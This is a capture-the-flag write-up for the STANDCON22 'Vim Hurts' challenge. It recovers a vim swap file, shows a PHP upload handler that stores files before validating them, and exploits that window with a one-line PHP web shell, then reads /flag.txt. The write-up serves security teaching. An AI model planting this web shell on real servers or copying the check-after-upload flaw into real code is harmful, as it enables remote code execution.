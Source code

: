 ```yaml
---
layout: default
title: Vim Hurts
permalink: /:path/
nav_order: 2
---
```


# Vim Hurts
> Points: 500

# Description

> Sysadmin like me love Vim! It's one of the beauties that never gets old. Its the part of the hacker culture, if you will. I have configured a web server with secure file upload functionality. My friends say it might not be as secure as I think. I cannot think of any good reason except that maybe I left some trace? Maybe its my poor Vim habit? In case you are wondering, yeah, I still don't know how to exit out of Vim.
>
> `nc 18.141.84.203 61003`
>
> The above port will spawn an instance of your challenge please do not attack it.
>
> Note: Hint #1 can be exchanged on the discord server with fishes. Hints here are hints #2 onwards


# Solution

Starting the challenge and viewing the provided webpage does not provide much information regarding the type of exploit. It seems like it a standard upload page.

![](VimHurts1.png)

Performing enumeration with gobuster and dirsearch, dirsearch shows the following information.
```bash
[15:57:31] 403 -  281B  - /.htpasswd_test
[15:57:31] 200 -   12KB - /.index.php.swp                                  
[15:57:32] 403 -  281B  - /.php                                            
[15:57:43] 200 -    1KB - /index.php                                        
[15:57:43] 200 -    1KB - /index.php/login/
```
There are 2 pieces of information to notice, first being that the webpage is using **php**, next there is a interest file called `.index.php.swp`.

`.swp `in linux are generally vim temporary files. The contents of the `.swp` file can be recovered by running the command `vim -r index.php.swp`

**index.php**
```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Upload files securely!</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>
</head>
<body>
    <div align="center">

        <?php

            define("UPLOAD_DIR", "./uploads/");
            define("ERROR", "Error uploading file!" );

            function check_file($uploaded_file) {

                $ret_val = 0;

                // 10 MB limit
                if ($uploaded_file["size"] > 10485760) {
                    $ret_val = -1;
                }

                $extension = end((explode(".", $uploaded_file["name"])));

                if ($extension !== "png" && $extension !== "jpeg" && $extension !== "jpg") {
                    $ret_val = -1;
                }

                $allowed_formats = array("image/jpeg", "image/jpg", "image/png");

                if (!in_array($uploaded_file["type"], $allowed_formats)) {
                    // Invalid file!
                    $ret_val = -1;
                }

		// Probably add some more checks here...

                return $ret_val;
            }
        ?>

        <div class="text-center card mt-5 shadow p-3 mb-4 bg-white rounded" style="width: 24rem; height: 20rem;">
            <div class="h2 my-5">Secure File Uploader</div>
            <form method="post" enctype="multipart/form-data">
                <div class="form-group">
                <input type="file" name="uploaded_file" class="form-control-file mb-5">
                <br />
                <input type="submit" value="Upload file" class="btn btn-primary" />
                </div>
            </form>
        </div>
        <?php
            if ($_SERVER["REQUEST_METHOD"] == "POST" && !empty($_FILES["uploaded_file"])) {
                $uploaded_file = $_FILES["uploaded_file"];
                if ($uploaded_file["error"] !== UPLOAD_ERR_OK) {
                    // echo $ERROR;
                    echo '<div class="alert alert-danger" role="alert" style="width: 24rem;">File upload failed!</div>';
                }

		else {
			// Check the filename is safe
			$name = preg_replace("/[^A-Z0-9._-]/i", "_", $uploaded_file["name"]);

			// Grab file from the temp dir
			$success = move_uploaded_file($uploaded_file["tmp_name"], UPLOAD_DIR . $name); // this uploads to the /upload directory before checking

			// Quarantine malicious/unexpected file
			if (check_file($uploaded_file) === 0) {
			    // All good..., we can send the success message back!
			    echo '<div class="alert alert-success" role="alert" style="width: 24rem;">File uploaded successfully <a target="_blank" href="/uploads/' . $name . '">here</a>!</div>';
			}
			else {
			    // Something's not right
			    // Quarantine the file!
			    // An alert will be sent to the admin automatically.
			    rename(UPLOAD_DIR . $name, "/tmp/" . $name); // Note this line is ran after the file has been moved to /upload
			    // Send the error message back!
			    echo '<div class="alert alert-danger" role="alert" style="width: 24rem;"><b>Error:</b> Only image files (jpg/png) are allowed!</div>';
			}
		}
            }
        ?>
    </div>
</body>
</html>
```
Notice that it will permit the upload of the file to the `/upload` folder before performing a **check**. It will then move the file if it fails the **check** to the `/tmp` directory. This means that there is a point in time where the file is in  the `/uploads` directory and has not been moved to `/tmp` as the check has not been ran yet. This is similar to a **race condition** but quite the same. 

The payload below will be used as ***shell.php***
```php
<?=passthru($_REQUEST["c"]);?>
```

The ***shell.php*** is uploaded on one tab and on another tab, prepare to execute the command. For example `http://18.141.84.203:62181/uploads/shell.php?c=ls /`

![](VimHurts2.png)

Doing so shows the `/` directory which contains the `/flag.txt`. Now repeating the steps, with this command,  `http://18.141.84.203:62181/uploads/shell.php?c=cat /flag.txt` gives us the flag.

![](VimHurts3.png)

# Flag

`STANDCON22{v!m_swp_f!l3s_c4n_s3rv3_4tt3ck3rs}`
